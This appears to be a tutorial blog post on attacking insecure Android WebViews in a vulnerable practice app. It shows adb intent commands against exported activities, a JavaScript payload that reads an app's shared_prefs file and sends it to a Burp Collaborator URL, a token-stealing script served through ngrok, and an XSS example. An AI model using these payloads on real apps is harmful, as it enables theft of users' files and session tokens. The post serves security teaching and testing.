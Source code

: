 ```yaml
---
title: WebViews in Mobile
author: Xmosb7
classes: wide
ribbon: MidnightBlue
header:
  teaser: /assets/images/WebViews-in-mobile/Webview.jpg
date: 2023-04-15 14:00:00 +0800
categories: Tutorials
# description: "..."
tags: [Android, Webview]
toc: true
---
```


- we need to de-compile an apk to go through AndroidManifest.xml file

Now, we will see which are the components that are **exported.** 
we can conclude that a component is exported in 2 ways.

- If component explicitly declares the **“exported=true”** attribute
- If the component has intent filters & no **“exported=false”** attribute

![Untitled](/assets/images/WebViews-in-mobile/Untitled.png)

![Untitled](/assets/images/WebViews-in-mobile/Untitled%201.png)

We can see that the function loadWebView,it is loading the url by getting the string from intent.

![Untitled](/assets/images/WebViews-in-mobile/Untitled%202.png)

<aside>
💡 ⇒ So this behavior can be exploited by third party applications by sending an intent to this         component with a url string and the target application will accept and execute as this component has been exported , or access LFI from the app

</aside>

****Exploitation****

```bash
adb shell am start -n componentname --es string "domain.com"
```

So our adb cmd will look like as follows:

```
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "https://3kal.medium.com"
```

⇒ **NOTE:** The above way works only if the component is directly exported and this doesn’t work for component exported by intent filter.

****setAllowUniversalAccessFromFileURLs enabled for WebView****

Another setting that the developer can configure is allowing JavaScript running within the context of file scheme URL to access content from any origin including other file scheme URLs.

![Untitled](/assets/images/WebViews-in-mobile/Untitled%203.png)

![Untitled](/assets/images/WebViews-in-mobile/Untitled%204.png)

```
<script>
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local filefunction load(url) {
        var xhr = new XMLHttpRequest();xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
            }
        }xhr.open('GET', url, true);
        xhr.send('');
    }load(url)
</script>
```

Add the above code to **sauafu.html** and move the file to the sdcard using adb.

![](https://miro.medium.com/v2/resize:fit:537/1*lLm6-_JqCJvytg6SHdAFaw.png)

<aside>
💡 ⇒  Exploit loads the content of the local file and returns it to the attacker url.

</aside>

Now run the intent with exploit file.

```
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/sauafu.html"
```

Now we should have received file contents encoded in base 64 in the burp collaborator or whatever you used.

****JavaScript Enabled with Interface for WebView****

Developers can enable java script in the webview by adding this configuration

```
webView.getSettings().setJavaScriptEnabled(true);
```

Adding this configuration creates an interface between the webpage’s java script and the client side java code of the application

⇒ i.e., the web page’s java script can access and inject java code into the application.

```
webView.addJavascriptInterface(new WebAppInterface(this), "Android");
```

if this activity is exported, this can be dangerous and allows an attacker to carry out many attacks including XSS and stealing tokens from the application.

## **Exploitation**

For Exploitation of this scenario, we cannot make use of the same web View as above since it doesn’t make use of interface. Hence, we will use some other webView which has used the interface.

![](https://miro.medium.com/v2/resize:fit:700/1*F_Zu34Wn0KJ299rfgQ90KA.png)

we can use support webview as you can see that java script has been enabled along with the use of the interface with the name **Android**.

![](https://miro.medium.com/v2/resize:fit:614/1*KSSFFseer-fvHFFxuZ8JJw.png)

```
<script type="text/javascript">
document.write("token: " + Android.getUserToken());
</script>
```

This script writes the token by generating from the getUserToken() Method from the **Android** object which was the name of the interface.

Host this script from the apache server and connect port 80 to ngrok to get https link (http links cannot be used).

```
sudo service apache2 start
./ngrok http 80

and use https ngrok link

adb shell am start -n com.tmh.vulnwebview/.Supportwebview --es support_url "https://8d95c0fe086f.ngrok.io/token.html"
```

![](https://miro.medium.com/v2/resize:fit:494/1*PuhX4XeOChzEQrmDuGPEwg.png)

token stealing

We can show XSS alert just by replacing the document.write line in the above javascript code with your favorite xss payload.

```
<script type="text/javascript">
alert("kal");
</script>
```

![](https://miro.medium.com/v2/resize:fit:492/1*IaFfGb9f9gmzSyr4LEJ47w.png)
